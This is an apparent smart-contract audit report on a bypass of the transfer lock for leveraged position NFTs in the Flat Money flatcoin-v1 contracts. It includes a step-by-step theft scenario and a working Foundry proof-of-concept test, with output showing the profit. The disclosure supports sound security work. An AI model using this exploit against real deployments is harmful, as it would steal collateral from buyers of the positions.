 Faint Opal Goblin

high

# The transfer lock for leveraged position orders can be bypassed

## Summary

The leveraged positions can be closed either through [`DelayedOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L28-L681) or through the [`LimitOrder`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L27-L214). Once the order is announced via `DelayedOrder.announceLeverageClose` or `LimitOrder.announceLimitOrder` function the `LeverageModule`'s `lock` function is called to prevent given token to be transferred. This mechanism can be bypassed and it is possible to unlock the token transfer while having order announced.

## Vulnerability Detail

Exploitation scenario:
1. Attacker announces leverage close order for his position via `announceLeverageClose` of `DelayedOrder` contract.
2. Attacker announces limit order via `announceLimitOrder` of `LimitOrder` contract.
3. Attacker cancels limit order via `cancelLimitOrder` of `LimitOrder` contract.
4. The position is getting unlocked while the leverage close announcement is active.
5. Attacker sells the leveraged position to a third party.
6. Attacker executes the leverage close via `executeOrder` of `DelayedOrder` contract and gets the underlying collateral stealing the funds from the third party that the leveraged position was sold to.

Following proof of concept presents the attack:
```solidity
function testExploitTransferOut() public {
    uint256 collateralPrice = 1000e8;

    vm.startPrank(alice);

    uint256 balance = WETH.balanceOf(alice);
    console2.log("alice balance", balance);
    
    (uint256 minFillPrice, ) = oracleModProxy.getPrice();

    // Announce order through delayed orders to lock tokenId
    delayedOrderProxy.announceLeverageClose(
        tokenId,
        minFillPrice - 100, // add some slippage
        mockKeeperFee.getKeeperFee()
    );
    
    // Announce limit order to lock tokenId
    limitOrderProxy.announceLimitOrder({
        tokenId: tokenId,
        priceLowerThreshold: 900e18,
        priceUpperThreshold: 1100e18
    });
    
    // Cancel limit order to unlock tokenId
    limitOrderProxy.cancelLimitOrder(tokenId);
    
    balance = WETH.balanceOf(alice);
    console2.log("alice after creating two orders", balance);

    // TokenId is unlocked and can be transferred while the delayed order is active
    leverageModProxy.transferFrom(alice, address(0x1), tokenId);
    console2.log("new owner of position NFT", leverageModProxy.ownerOf(tokenId));

    balance = WETH.balanceOf(alice);
    console2.log("alice after transfering position NFT out e.g. selling", balance);

    skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

    uint256 oraclePrice = collateralPrice;

    bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice);
    delayedOrderProxy.executeOrder{value: 1}(alice, priceUpdateData);

    uint256 finalBalance = WETH.balanceOf(alice);
    console2.log("alice after executing delayerd order and cashing out profit", finalBalance);
    console2.log("profit", finalBalance - balance);
}
```

Output
```shell
Running 1 test for test/unit/Common/LimitOrder.t.sol:LimitOrderTest
[PASS] testExploitTransferOut() (gas: 743262)
Logs:
  alice balance 99879997000000000000000
  alice after creating two orders 99879997000000000000000
  new owner of position NFT 0x0000000000000000000000000000000000000001
  alice after transfering position NFT out e.g. selling 99879997000000000000000
  alice after executing delayerd order and cashing out profit 99889997000000000000000
  profit 10000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 50.06ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

The attacker can sell the leveraged position with a close order opened, execute the order afterward, and steal the underlying collateral.

## Code Snippet
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L298
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L76
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L94

## Tool used

Manual Review

## Recommendation

It is recommended to prevent announcing order either through `DelayedOrder.announceLeverageClose` or `LimitOrder.announceLimitOrder` if the leveraged position is already locked.
